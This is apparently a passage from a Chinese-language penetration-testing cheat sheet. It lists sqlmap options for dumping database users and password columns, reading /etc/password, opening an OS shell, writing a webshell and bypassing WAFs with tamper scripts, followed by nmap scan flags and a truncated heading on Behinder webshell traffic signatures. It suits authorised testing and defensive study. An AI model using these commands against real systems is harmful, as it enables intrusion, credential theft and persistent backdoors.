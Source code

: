 ```

注入获取数据命令：

--dbs //默认情况系sqlmap会自动的探测web应用后端的数据库类型：MySQL、Oracle、PostgreSQL、MicrosoftSQL Server、Microsoft Access、SQLite、Firebird、Sybase、SAPMaxDB、DB2；

--current-user：大多数数据库中可检测到数据库管理系统当前用户；

--current-db：当前连接数据库名；

--is-dba：判断当前的用户是否为管理员账户；

--users：列出数据库所有所有用户；

获取表名：--tables -D 数据库名；

字段名：--columns -T 表名 -D 数据库名；

数据内容：-T 表名 -C username，password --dump；

读文件内容：--file-read /etc/password；

系统交互的shell：--os-shell ；

写webshell： --file-write "c:/1.txt” --file-dest “C:/php/htdocs/sql.php” -v1 /*将/software/nc.exe文件上传到C:/WINDOWS/Temp下*/；

sqlmap过waf：--tamper "不同数据库、waf规则对应脚本文件.py"；
```
## nmap
```
-sT        TCP connect()扫描，在目标主机的日志中记录大批连接请求和错误信息
-sS        半开扫描，很少有系统能够把它记入系统日志。（需要root权限）
-sF、-sN   秘密FIN数据包扫描、Xmas Tree、Null扫描模式
-sP        ping扫描，默认扫描端口使用ping扫描，只有主机存活，Nmap才会继续扫描
-sU        UDP扫描（不可靠）
-sA        穿过防火墙的规则集
-sV        探测端口服务版本
-P0        扫描之前不需要用ping命令
-v         显示扫描过程
-h         帮助
-p         指定端口（1-65535）
-O         启用远程操作系统检测（存在误报）
-A         全面系统检测、启用脚本检测、扫描等
-oN/-oX/-oG 将报告写入文件，分别是正常、XML、grepable三种格式
-T4        针对TCP端口禁止动态扫描延迟超过10ms
-iL        读取主机列表
```
## 流量特征
### 冰蝎特征
